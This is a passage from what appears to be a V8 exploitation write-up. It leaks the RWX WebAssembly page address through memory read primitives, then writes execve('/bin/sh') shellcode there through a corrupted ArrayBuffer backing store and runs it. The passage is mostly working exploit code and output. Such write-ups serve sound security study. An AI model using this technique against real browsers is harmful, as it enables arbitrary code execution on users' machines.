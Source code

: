 ![](./solution/assets/double-array-2.jpg)

```
// https://wasdk.github.io/WasmFiddle/
var wasm_code = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]);
var wasm_mod = new WebAssembly.Module(wasm_code);
var wasm_instance = new WebAssembly.Instance(wasm_mod);
var f = wasm_instance.exports.main;

var rwx_page_addr = arb_read(addrof(wasm_instance)-1n+0x88n);

console.log("[+] RWX Wasm page addr: 0x" + rwx_page_addr.toString(16));

// OUTPUT
[+] RWX Wasm page addr: 0x7b54b655000
```

Therefore, we just need to place our shellcode to the starting address of the `RWX` page and call the `main` function.

```
function copy_shellcode(addr, shellcode) {
    let buf = new ArrayBuffer(0x100);
    let dataview = new DataView(buf);
    let buf_addr = addrof(buf);
    let backing_store_addr = buf_addr + 0x20n;
    initial_arb_write(backing_store_addr, addr);

    for (let i = 0; i < shellcode.length; i++) {
	dataview.setUint32(4*i, shellcode[i], true);
    }
}

// reference: https://www.anquanke.com/post/id/267518?hmsr=joyk.com&utm_source=joyk.com&utm_medium=referral#h3-14
var shellcode = [
  0x99583b6a, 0x2fbb4852, 
  0x6e69622f, 0x5368732f,
  0x57525f54, 0x050f5e54
];

copy_shellcode(rwx_page_addr, shellcode);
f();
```

